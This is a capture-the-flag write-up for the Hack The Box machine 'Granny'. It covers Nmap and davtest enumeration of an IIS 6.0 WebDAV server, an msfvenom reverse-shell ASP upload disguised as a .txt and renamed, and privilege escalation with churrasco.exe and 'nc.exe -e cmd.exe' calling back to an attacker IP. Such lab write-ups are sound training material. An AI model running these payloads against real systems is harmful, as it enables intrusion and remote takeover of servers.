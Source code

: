 # Granny

## Overview

Looking at the box we find a webserver on port 80. Investigating the webserver we find that the server implements a WebDav service. Looking into this we find that we can upload and move files on the webserver. After uploading a reverse shell we get access to the server. Moving on, we find that the user we have on the machine has the SeImpersonatePrivilege enabled. This privilege can be used to escalate our privileges on the machine to System. 

## Enumeration

Doing an Nmap scan on the host shows that only port 80 is open. Using Nmap we get more information and find out that it is a webserver.

```bash
sudo nmap -p- 10.10.10.15 -oA nmap/all-ports
[sudo] password for tc: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-25 16:55 EDT
Nmap scan report for 10.10.10.15
Host is up (0.019s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 118.19 seconds
```

```bash
sudo nmap -p80 -sC -sV 10.10.10.15 -oA nmap/info
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-25 16:57 EDT
Nmap scan report for 10.10.10.15
Host is up (0.018s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Tue, 25 May 2021 21:01:00 GMT
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.86 seconds
```

## Getting user

### Tools

Based on the methods from the above Nmap scan I eventually investigate the webserver using a tool called ```davtest```. This tool can be found [here](https://code.google.com/archive/p/davtest/downloads). Using this tool we find that we can upload files with certain extensions. Another capability of a WebDav service we can move files on the server. Using a tool called ```cadaver``` we can interact with the WebDav service. Cadaver can be installed from the repo using ```sudo apt install cadaver```. 

### Exploiting

Using davtest we see that we can upload files to the server. However, there are only certain extensions that we can upload. Below is the output from davtest.

```bash
cat davtest.out
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: sTWUtSJ
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_sTWUtSJ
********************************************************
 Sending test files
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.php
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.jhtml
PUT     asp     FAIL
PUT     shtml   FAIL
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.txt
PUT     aspx    FAIL
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.html
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.pl
PUT     cgi     FAIL
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.jsp
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.cfm
********************************************************
 Checking for test file execution
EXEC    php     FAIL
EXEC    jhtml   FAIL
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.txt
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.html
EXEC    pl      FAIL
EXEC    jsp     FAIL
EXEC    cfm     FAIL

********************************************************
./davtest.pl Summary:
Created: http://10.10.10.15/DavTestDir_sTWUtSJ
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.php
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.jhtml
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.txt
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.html
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.pl
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.jsp
PUT File: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.cfm
Executes: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.txt
Executes: http://10.10.10.15/DavTestDir_sTWUtSJ/davtest_sTWUtSJ.html
```

In order to get a shell we first use msfvenom to create a reverse shell. This shell will be in the ```asp``` format which is a format that a windows server can execute. 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=8000 -f asp > shell.asp
```

Once we have the shell ready we can connect to the server using cadaver. However, we can not directly upload an asp file. Therefore, we upload the file as a txt file. This is done by simply renaming the file. After uploading the file, we move the file on the server making it a asp file. Once the file is moved we navigate to the file and get a shell.

```bash
cadaver http://10.10.10.15
# Upload the shell (as a txt to be allowed)
dav:/> put shell.txt
Uploading shell.txt to '/shell.txt':
Progress: [=============================>] 100.0% of 38211 bytes succeeded.                                
# Move it to asp to get code execution
dav:/> move shell.txt shell.asp
Moving '/shell.txt' to '/shell.asp':  succeeded.
```

## Getting system

Using the ```whoami /all``` command we can see the privileges that we have. 

![whoami privileges](/attachments/granny1.png)

Looking over the privileges we notice that we have the ```SeImpersonatePrivilege``` which is what we can use to escalate privileges. One way to escalate our privileges is to use [churrasco.exe](https://github.com/Re4son/Churrasco). This program exploits the privilege and then runs a command that is given. In this case I uploaded a copy of nc to the server and used that to send back a reverse shell. 

```bash
churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.18 8001"
```

At this point we are an administrative user on the box.